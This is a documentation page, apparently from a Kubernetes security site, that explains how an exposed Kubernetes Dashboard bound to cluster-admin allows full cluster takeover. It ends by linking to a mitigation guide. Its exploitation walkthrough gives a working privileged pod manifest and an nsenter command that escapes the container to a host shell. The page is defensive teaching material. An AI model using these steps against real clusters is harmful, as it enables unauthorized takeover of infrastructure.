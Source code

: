 ```yaml
---
sidebar_position: 8
title: "Exposed Kubernetes Dashboard"
description: "How an exposed and over-privileged Kubernetes Dashboard can become an entry point for full cluster compromise."
---
```


# Exposed Kubernetes Dashboard

The Kubernetes Dashboard is a web-based UI for managing workloads and cluster resources. While useful for development and troubleshooting, it can pose a serious security risk if exposed without proper network controls, authentication, and access restrictions.

This article explores how multiple misconfigurations can align to expose the Dashboard and allow an attacker to gain full control over the cluster.

---

## Background

In secure Kubernetes clusters, the Dashboard should not be accessible from the public internet, should require authentication, and should not be bound to a high-privilege service account. However, in misconfigured environments—especially development or test clusters—it is possible for all of these protections to be missing.

This scenario outlines a chain of misconfigurations that, when combined, lead to full cluster compromise.

---

## Common Misconfigurations

The following conditions must be present for the Dashboard to be exploitable:

- The Dashboard is accessible externally through a public IP or port.
- Authentication is disabled or bypassed.
- The Dashboard's service account is bound to a high-privilege ClusterRole, such as `cluster-admin`.
- Network-level controls (e.g., firewall rules or security groups) allow external access to the exposed port.

Any one of these in isolation may not result in a successful exploit. Together, they enable full administrative access to the cluster.

---

## Exploitation Walkthrough

### Step 1: Access the Dashboard

The attacker identifies a publicly exposed Kubernetes Dashboard through port scanning, misconfigured Ingress, or a LoadBalancer service.

For example:

```
http://<public-ip>:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/
```

If no authentication is required, the attacker gains direct access to the UI.

### Step 2: Explore Available Actions

Once inside the Dashboard, the attacker tests for permissions such as:

- Viewing namespaces, secrets, pods, and deployments
- Creating new resources
- Executing commands inside running pods

If the Dashboard is using a service account with `cluster-admin` permissions, all of these actions are allowed.

### Step 3: Deploy a Privileged Pod

The attacker uses the Dashboard’s resource creation feature to deploy a pod with host-level access:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwned
spec:
  containers:
  - name: shell
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep infinity"]
    securityContext:
      privileged: true
  hostPID: true
  restartPolicy: Never
```

The pod runs in privileged mode with access to the host process namespace.

### Step 4: Escape to the Host System

Using the Dashboard’s Exec feature, the attacker enters the pod and executes the following command:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

If successful, the attacker escapes the container and gains a shell on the host node, effectively bypassing Kubernetes isolation.

---

## Summary

An exposed and over-privileged Kubernetes Dashboard is not a vulnerability in itself, but rather the result of multiple misconfigurations. When combined, these missteps provide an attacker with a clear path to full cluster takeover.

Although most secure production environments would not be affected by this chain, it remains a valuable example for understanding how layered security misconfigurations can be exploited. It also highlights the importance of hardening development and staging environments to the same standard as production.

For guidance on how to mitigate this risk, refer to the mitigation guide:

[Exposed Dashboard Mitigation](/docs/best_practices/cluster_setup_and_hardening/network_security/exposed_dashboard_mitigation)
